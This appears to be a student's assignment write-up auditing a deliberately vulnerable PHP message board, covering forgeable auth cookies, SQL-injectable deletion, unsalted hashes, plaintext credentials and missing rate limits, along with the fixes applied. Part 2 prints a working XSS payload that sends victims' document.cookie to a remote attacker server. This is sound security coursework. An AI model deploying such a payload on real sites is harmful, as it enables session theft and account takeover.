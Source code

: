 #Part 1.

1. The application tries to prevent access to messages by checking for the existence of a cookie that is created when the user is authenticated and logged in. Messages can be deleted by visiting a GET URL, the link to which is only visible when the user who is viewing the message has a cookie that matches the user who created the message. Even worse, the deletion action is vulnerable to SQL injection which would allow any user to delete any post or worse.

 Unfortunately, these security policies are not adequate to prevent unauthorized access. Malicious users can easily create a cookie called "hackme" which contains the username which they wish to target. The actual message deletion action doesn't check to see if the user is authorized, anyone can enter an arbitrary message ID which they wish to delete. 

 In order to fix this I implemented PHP sessions. Rather than sending the actual username and password as a cookie, a unique session ID is set which an attacker wouldn't be able to guess (they could snoop for it, but that is addressed later). The application then checks for the existence of the session ID and makes sure it is valid. Similarly, the deletion action will check to make sure the user is actually authorized and that the ID provided is valid.

2. The database only contains password hashes. But the passwords are not salted resulting in duplication of hashes.

3. Attackers can easily snoop for user credentials for multiple reasons. Since the site is not HTTPS, usernames and passwords are sent via plantext over the network. Furthermore, the username and hashed password are stored in cookies which are sent with every network request. It would be trivial to snoop for credentials.

 To fully fix this, I would need to enable HTTPS. But I did stop saving the username and password in a cookie. Instead I use a unique PHP session ID for further authentication.

4. Login attempts are not rate limited, making brute force attacks trival.
 
 I fixed this by slowing down the number of attempts allowed per minute on a user.

5. No password scheme was implemented, users could submit anything as a password.

#Part 2

The attacker could post an image that fails to load, forcing JS to run. In this case, I wrote a simple script that sends the user's cookie to the remote server.

```
<img src="fdfjkdfjfkjdfdf.dfdjf" onerror="this.src=\'http://10.121.20.103/hackme-xss.php?c=\' + document.cookie">
```

You can view the result of this attack by visiting http://10.121.20.103/hackme-xss.php.

In order to fix this, I disabled all usage of HTML in messages by using the `htmlspecialchars` function in PHP when rendering the user submitted content.

